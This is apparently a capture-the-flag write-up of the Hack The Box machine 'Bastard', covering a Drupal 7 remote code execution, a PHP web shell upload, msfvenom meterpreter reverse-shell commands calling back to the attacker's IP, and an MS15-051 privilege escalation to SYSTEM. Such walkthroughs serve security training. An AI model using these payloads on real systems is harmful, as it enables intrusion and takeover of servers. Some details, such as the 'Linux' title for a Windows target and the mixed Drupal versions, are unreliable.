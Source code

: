 ```yaml
---
layout: post
title:  "HTB Bastard Linux"
description : 
tags: 
---
```


# HTB Bastard

# Recon
Nmap scan
```ruby
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster scan
![](https://lh3.googleusercontent.com/GaFlr7GWx5N7rb7y2-vSaXl_qOI3ZlnZrAanwKRIkyniOkkaPB2zGRrVrG2JCO5ef38R_C0CnDbchWt-apnuXRWa6JEX43MtH0IvRhLIICiY2Yz_LcjCeE1ZnnQCSRSjl4Hc3ZX76PtwazQFq3377eGVr-TD06s88fSMjZMZTrM01J_S_VOIZsrVIP1rR_qDF34KbkzZjV0mww7GSNzuOKLxicLKkmsZo4UiTr8XTi3jC7upES-QnHrkSjC9V-3tdnZJ5oUO2hPrS4yjWwMLXAzlNJBZVlJd05wk_-ssaU-2of4lywP8s6kTa2uhDun4MK2oR7eGRXxgdGU8XEvDR_YHZfJV6xqXkkkyjduHiCXiO-rbt0US7Bd76cjx9n1ah2eiBy5mIhcFxh-FVuBz3sWzDLLInO5fFPT-jtcdU5yKk4B2UKTeAMq2uc3HboccrLshIXwCBCA494rnHStO67WjSz4JR9UKgiFasZpvxi_QZ9ddHvdKnn4Ze1_GN43TOoMaLurneVuGh2o6tVv_nguB1bCUWuLjJQVB9mtJNKp0jgUwDt-cnZvuofL5PnVYnNcM_Zz8eoEmhJIHkIwUSUqX7GFNOjj76p9Dqi4QX6yH0i3u6OJ3Qu05PgP1i_ama4KnjsDVaGp5N-yWOa3XDX1pR9RzdeZ6T5cCdrOf5YoES9N4MtR_QPo=w368-h255-no)

Nmap indicates that a Drupal 7 is running on port:80. Furterh investigation reveals the changelot file.
![](https://lh3.googleusercontent.com/Yeesj-3PsnWGJ_xqpyM1XGCwZ_sxMTtcLND1FYB4hJr2EsoknRs7cEGX4mD8BU9y70P44iC1BDqPeSOZz59_YUN2neCFoSpEjlxA5LJdY224klUO0E_Yr48EhtNAvc_dofSeiAqxWzDp7FFlrAlJziRXmEwYqZzlqCULm_c6R7zgdQuj4qs2k97ifJr7aGZ0HSXqOh2FLsCAc9Qp4OtZZ9H_f_FL6AI9_307z9Cjz9bveC-nC2Ic2kMQpL_SrMcXxz5JGIke8eHnAdATOazx-P54PSPMnkY8Lk5FXJESnCvtaoPLh_H8AVDB-iTjKLBkl3xf92AsYgeygCTTcVs01-Kv-9AFHoWIh9gdAQ3uaPJY2xCyH4ol7qF64bzoMT-jA4ih5UB3R11-Wm7yVfbgXRWXqInf39C75csOZPFi5-_Tm4Ogv_sA-rLvmxnBVpToU3-6LyCy1W9Zpt1k7sBC1cg_gpcsi5ZOa5seIPW5gFmIHRlI9ZAUZW1fNpD7ZK4HPXy2_8PsHOVVUjeUFmfJcOhD0eTufwooyblwEGaWAFe0IOo9xrmm_Cd591cDIrlBAbpZq9fvmhpn2xwtiPjpO7X1H35SI7hklPPbh6bOuS8YGI6zrR2EXfvaKbDegmSf_KqQ83RjWmuPG_KjLSdUxGIi3d2w53iOfCSa-Etf7le7NGHzc8zEk7Q=w532-h266-no)

![](https://lh3.googleusercontent.com/VB7NUY3pt-vYtFz15oSnfHz9B5ShufrG73oMbDS-RdBhPVVr1Ob3gqv28Fy-69TgcNx0_6v67Zv3N9MMWtkLgT2i96YJsSdYrdhNDTE5NsV5ttkL-vUP6DGSx9SZuynkc4MHlY3DP-tG8efdqQv_D7YVCpIR157_XlH1vSkUIHGa3dVGAhYaUCh0FWWMNf_ZOaFyy-xiqL0OE_Ryz4O_-TpdAW1THvcNDLeoWVsDiDRq2j0cRzEyFJnB0tv_-Yfwhf8EkQIhxdKBBse7pITTJjZdDi1dJZ18Y0PB_VFyhWHtY4gpZKgGmzxo5rylV3yuT_mfOyQOltidwtb6Dts9pq_Yc0kZD1Xod2GKG6jBWh6x4T27qSr16MZDrdzqJ2xrtykv56tjhS1qz5Ae18XLf4yObNz-TQNH3QQ8p_WifeAhYQXEHdTk_Xrlgib7SOl04UTOpwu_lpUXII_SOU_keQKGLew32jY5aq8Gu3pRS8Ctk68c_FwYhXAzQSVt7PRumDuo1X3o5dQ1OMV5rKwgf6Fxplml6Ba0zpu624RJpi2Y3qXsDLKrllTnRpfOv2Ok7KorvuwnLuzFdDc-FXn-8d92MZ10clLoCSKJ1b5tqIyVFg3J6wY8eou5x-Kb1CeR9HSUNDS6BxrxWztuJ-GN_GOKzOqdb9axwIZND-5d-Zyr9OF4G5EEK2M=w559-h331-no)

# Exploitation
According to the changelog file the Drupal version running is 7.58. After a quick search we find
the closes exploit to the version
```shell
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```
![](https://lh3.googleusercontent.com/9lstBWfm8oaDaKy99l1tD8hJOq_d64IGWmu0a4RgeDtp7DJC-6L0xrzmUCx4URVSFJVnkEgZt6xb8QaTfECurCQUgF8vl-xpwfbgPDm_1n_qjW32P7S7iPkPnEWSMy_gSi6n06Di84Rm75syJ3P0lKovRketWxPvVCwudFYoqSZ5TcCn9u8VyMTU_likTOOElJCuJyjRw3CWlp02WNcOXAeL1qwGx_HT_36jfM7ji6wsfRZIHbLBIbLjZEdG5rWbXy9HCyi__RnOBIposVdcDHcQPV6by9h1vM1E4kA4YpYLrc5iiKXLHSaFe4rzlzRTzUlzQbb3GnHewuj2GDMeGaflG8TC4WXekLQofJ6b_Hklxk5stM-MUtympGNC-CvmFVmvcOEiGxBOACTlAB42RBmNM06HU3iEuWFb5Q_NAJ5_jAkQhBnAT-pNcfWR4-YOzqbxC2lbYVie3-_qvR-nehojWX2hpvjlTI8VvRb5VTXTaXjUr851icRrIJkLn5dRCJICEcI1J8RaGWiiDufxaiaC1EhgdlnXu8arpv9o8cekjspbkRyHdD2dLcN2WTFg5iEEjqT3yeBDSh577Hng1NQvXruBpUEgRY7uiSDMrZ2HsN_6irXpOyGCvKxYkLq6Jlqhi3GD6fFB-L5s4XfWFiUxqVZVBykE9UyYrxGsoDEwBM95AhFdGdU=w676-h275-no)

We modified the following options:
```shell
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'dixuSOspsOUU.php',
 'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
```
```shell
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'writeup.php',
 'data' => '<?php echo system($_GET["cmd"]); ?>'
```
We run the ./drupal.php file and it will create to two files **session.json** and **user.json**
![](https://lh3.googleusercontent.com/SMmshWsrne-XpcHuJoxK1KD2lR89U3wxk_O8VI1BVhfnHl5B-kkwkJ9W51xAYVSwi-wxJU65zXKOzF8w98NVmaRh-XxKUvkr0etYIiYnuG1W9bm3VBqOJd-V9YKsr0Bcevrqy7PRTNoYMAma6HWEOI8P_5q1fBARKUm4Ex59Yh5v2R2G4R3pLzNna55Gz-3CH24oI1xS5ykm4RMN9biEE96IPvFmdIYm2wzm-BON4_cOJTZvqrnPSU6v-63z4HN6R5ogLLob9kL2AYUb8gmrpKXU_W1-VJqkRGhxxY5dnO6JMGjyDp-fX0LjrFe-daIIl8O1yMkD-bqujqYSQYMb1xvB8ODxEgWGm-VTJ6RuxLVUM3CyGJpULFFUWQGeAaqmWXiWawlQNcS0Upg9sZfJhQclbyAsDnjVF69kbcRlFqIKdpJJjrCAPAHQ7urTQrDfSas0vk-iCf9i-_WtL44g2Bylz1ZZXlG860bTGeTFCQt_IVOOeROvNBCzx9NpKgqvKoJxZTH54iNTnWdQ0FiZfes5WEvc7iweOW1iC4W0Y_FNj3BaJQ8BBnlpqt7RBf0YlL8ehQwU6GJkHfPlDGOlBDtL8qKX1ndZ-JQnZlzW14QCdsLD8CmTGVrRpJnSZziHBBp0UBjktwZbtWre_4ByvtJSdq6Vh4Nm4DlcN_8uiHa0LSXKEFKSOpg=w390-h199-no)

![](https://lh3.googleusercontent.com/5LEVJvjFIrM7Tiw-TidUiLTpx5E00I4SLhHmbXCtiMhYgZNPmnsjwCpU6rAYu7-s64eiA9J1LActK24HINMLsgSV_3lJLo6rSSK--VJsEfTK4cxVOfPX3IKbIEZbNBZPKYRgBgoSUiaie3rft6FZGAR-2XzEQcATrYp3-ExRW5Q3Kejw9_RLHCNc6zW7xGXpx06Fvr_u04hiOmFX_M0X4Md7k6l_OI3HV0h0vHS1vVQpiE5Pea38ftmwWkhJPtGCnB9IIJn7TzChcc4wFRz-m4RjS8oU2lQkRIFn-ihtu6nD2tLzhAUMXQJZMq8WY5z3n0XuNiiV3wwSk-WUdDfmR5CCLvGUcmi-lQMG2PkWydQnvVQ9jdMG5SlTbfoVrc8gxgBrJuwu8YSn4zqApPw3sJYdiaFWFNvyoCgOYqYvDdCw4JdQc2tl5KcGmhd7KyfZ1hzIYYsmpM1sc7jcr783PnswhV30MhFthhd6adUYjWoh0sTmLxOUckcXYEx1ss3c2n-UqIKo7Lx-wfeOw3EbK5fZuSsPo-dm-E-yP1kr9ayb90FpK-4Q2kaar9MLJnllC3UOmvm4Unwn0crlb0BKTlFeocXxFRdqqDQj1zvweT_k7hTRt1RzeIOFninvBgjTbYRXENeCD5pVQr_Z5md9FnkNkZSnXKHq83RN3JbqKB2Kbuaph3Nj9sk=w584-h128-no)

We create a cookie with cookie manager and we use the session ID and session name from the
session.json file and we login as admin.
![](https://lh3.googleusercontent.com/FWdpEek-l4QGWD21HrN386secGE9IxiA_OVvGwEOH7A7JxrdeJRyKv_kxLrxlCCSYmTtR-udboRR6QK9LcJNys4vQclROwHpkAFIprI_g3z1Pn275JSQf6PkYjNwpciUfktV5Iq5msSUnQdqJIBWNJeA1GOs8L9yE-DgqlxgxoRMO6x5EJK9ZVbp1TcwndqBnqvdy3tIweC8wu2THJz7z_vvQLv7uy-dsjl3z_L0HIYXQB4vS8eNEisp22CnIjHuAMlBEIcgCba2EkRJwEOEfzCw0V4P-T0OqSyo6J3N7h5OVdCtJaJHvMeM_Xzd1A53CkeNShdDDc05umpafeRMJKqzdcDuUhc8790jOy1IDfZ1ILSVFA531KC3KjKP9lo8lMUXCsho-0Pf2B_snSkYXzA0BHkY4qKZJN4-Pdj6yWDXoeyWUKX6w3hCDJgRyUx6A7JwWq4TNVUlRobXrO-fCQrvKZPnBi6KHSnQZ27-9qQ1TAewuUYdcz9EktLnAKPNI6zu4HThNwp4VK_gcbzFVmXwZQU1k7KJ8foN0ZtWKhrf2n389avKxu0d643lyffXz1SvMGHG4rQQ2H8WcJCVzw01nfBVzPPaDE3qzD-5e9kPpNtOIZmcN17Avhj0r49ycan7cZ_RFx__mHX96v4TeaABukXl5nGs8gZeaEXxwc3cjcvO1V5JaeA=w986-h386-no)


On the modules section we enable the **PHP Filter*
![](https://lh3.googleusercontent.com/nqxJ_UNATvG5iBxalGd0kLEojyGOwa973A2M-zjq9lLStWqZzAMxlMbIO11VoDh8NDS8K88fzg-3LDnwFoVo-9P5fMTT80Z-7E6UfgMv0TfW4mm4CCJt_YOMXKpeQ_lXuh45zYpgZiiEcFAwPIphzDOJAC_si-jnqQVdMFBLOv8HksG-nYkEmqnO6F3oTch7bCNtJTBXp6GhI8SA5jeBqmi_kLJIoG4xDT1dlSQeTUTaLL5rLlId66_FILtoo9UZmWuR-N62UkhiceB_cE_u6gLPr5fO84E1yh7v-jkSmg2nSlk9Zhy7bJ2qgY2i7EA0D0tEcXPFgF7LXCoqZUa-CDOY4KMave_YxmbpBe13MMwnMqTaKhwVOE-EmoNiXmRC1Y-sF-CHozmwnMJyHdTQB-H6vi8Akrhe6wVh55ttNbElM8Oa3P4KOuDotdxSOAT9GsofZsIgsFXnM7TEUBRE9xW-G_pHgZD22lEhjJn8XZsxqjx8IR4z_aGv06-w3r96TK3xb0cclh41hh4IIWp7sIvvAEt2-F1dZefou00iPTPeaNccDlscnljL1xxCBg1evMnjz9eUybJ8VYArv-kPaOMQM0qzWAav3W6A693qGe2om9omIIIyJLx7BJ7_pGGMLuQ6NWV-iL7B0u2eu5y4COVATCqElmWvx3gn6YmMJ0JrgvE7mW9hZjE=w843-h93-no)


We create a php msfvenom shell and we execute it to get a reverse shell
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e base64 -f raw > evil.php
```
![](https://lh3.googleusercontent.com/QGc0fa1RgZl9a6ns8wJpGesn-jZrLbiQmAF5aVath8_4EWgBLoexsuW3AOsYyA24htM-9DZFNHmmbffO7XZL4JeD1LrY7Z1fVnJ6euJFbxSeYv5W0ZkPAdBKEPR9Y2WewjzgjWaQmjAjm-J8UA9-Lx5VIBQc3p8ycsmHIdBZl_dUOgBscp6UOaa8otyC7AoWaXajuYjsbrH8KRTGrSKogCVODNmHG03xMDq5MFihoOxipaeAAdd-T3sV8qce-Gl91gaJw5JiWgEFi_R_TwmkgBR8vzYxlpEV87SQsgTciG-5bAuzxmHLmYsl9LIkmpgLNqPYfyITNkQTTXM7Xh6mFTGUQz6L07L6htETxdwuHN8MsaguMbEnu-0nN4FK25BVbfven75Awd2wayESjrj-edDhbAv3Px8qx6DTf3Ydx5_nGsBG_MIMAV1QC9AyFkcVNodlgJhB-oBfNbNKKv_ZmzJzN7re0-a_Rxp3Fq5lBfy92xqA3OG8xWioV63UkOH5fy3MAb--8VEqewtKM6lLDb6f8GCn76pSGmeTbKQOQM7HotuEYrKc8VWT68Rkb5WCTg6QuIkiZz123HbTKnTreMZw4ZOG9yZ9u7_eGgLe7qLPHTLloVU1P6yrNQqXkcIFedEEHPlc4EnjwtVsS7_WM-eClbmhK_t8q2yxa2ydvQETpP80dxkByhg=w1126-h179-no)

![](https://lh3.googleusercontent.com/VFHh7am3Klejtbn_HPd3Dv74BW-29ig73ZdRcCpzmZ5k7dikSE1e_3C-2mjrw6oudAxyxLkSPygKbVu8UZnIBAViqtvhpNC2IcQpr0i7zbJeCGKxZRwQi_Q2Jxjwgb4BMeOtZYsp3ZLQ0yPBlOmHWgW-QdrTHM2slDp01O06kZPdXWTIJP5xDamD0i6pEL5_cewVqB9TIvAsvyPauxQtTTaLRFDvg5JpBCz3sJx-aFh5wmq6ihGNFqH4WKf4OWZMkwh-jr2MtfbkqepsIayHTfB_rnOENyJWn0J3B4BMvz2VRyj0PKv8R3VZrIUcBWvLI6zxlzL8AakevTC9887WeKWeU8mrpqHvlPdi3hi89EF-H1HBDRU7H7mMEg8emDVQqwKc6E4e1LQcc9fJJwQ_TIIJaGmvPXHUbPXiUqMMT0eYW_Rgnlji1u_WrZoUB2Wv5DX7SJlgTxS3yA6yLFOvGjwbRyTDj3i-pZ8a-WIDl-nT-gzZDnzZL47JuvTSxATsgzgce1HJLIBaVNiLsdfBvSYtappbyHVL5Eq2h2zlOez7sPcbKPIr5UqngokTd4TAeYkhfyGjPA89RX04DNxZtFf-gQ7QcgRmBlXqdVoYfD7v10gAomRGP_y4_FTxiGcRw_L0Izzc7g6-Ofo_9v-illxW5JFMNhiEgfXycxUCJAkXaf7m33lgImU=w492-h156-no) 

![](https://lh3.googleusercontent.com/S5sXZe0Qh6mCkJsuKAr8IKe0ZMv9Ib8mOq8Cnkl0q2wDr82kybgdB1XgYv8F8C7Gu99PAN7H4JeQ6Wfax1xz1SJCwXxC7XfLfVhNkvXjthI4Z4mh4JftqdnpBp6sDWqb_yUfkhMnwkxjqf-B35SUJERjWbJYyosWpWtNJEnZ9Srpb9cLs6L9DLKc2YPR5jqpqe2xKDuXC5Y3bG8ZpGb_1qJZYBS31nUp8mhmhw12uh2w_N2z7aiRFbCP8-Ur3FeQVNwH3HO-6aacVwep0okgEQi9qhKrcNyEmfGSO-gZvQQcENqvoqA-Z08FtV23RA7nWEFdxFpJ6lLi-8e5yi5KOgvh-7oG-QINPJsQ8Mwvsdr3T_sQ7D6OVQe25Dc0c47oSIE8lHMuUKnhsqq0AAmW0GdiUvJFnn6sv5WczHU2aq9dpjWxX5gjYnKB6C1AL8nkU6sIArF6T-9kztigFgU-LottydzOnoA3qMojJbenpnjLmw9cphIXqK-f-eZ28Uj92ayyVrR3DjWrlZMjteyo5Ex-S-tHZtSpKuv2h-fuUgEztz5Y2kTKLWrsdTgdqRevODdNQaEKdEbMoqvXYvBrwPFnz6Jx2nj8rFo_MZgW1C2OPbjNyszwGqtYwJYE1X8qmb-8AccySIo3K64MWeK-J9oEA6Wt4QkiXGPnSk4K2IJ1NFcmFjiZcFY=w446-h145-no)

However, shell is very limited and it crash when we try to spawn a windows shell. so we create another
msfvenom shell
but this time a windows/x64 as the target machine is a 64bit. and we upload it using the current php
shell
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=5555 -f exe > evil64.exe
```
# Privilege Escalation
We use the vuln: MS15-051 CVE-2015-1701
This exploit let us pass commands as system authority, so by passin the command "cmd" we get system
priv. Ex
```ruby
2/2
C:\inetpub\drupal-7.54>exploit-bastard.exe whoami
exploit-bastard.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1500 created.
==============================
nt authority\system
C:\inetpub\drupal-7.54>exploit-bastard.exe cmd
exploit-bastard.exe cmd
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2588 created.
==============================
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
```ruby
ROOT  "4bf12b963da1b30cc93496f617f7ba7c" 
USER  "ba22fde1932d06eb76a163d312f921a2" 
```
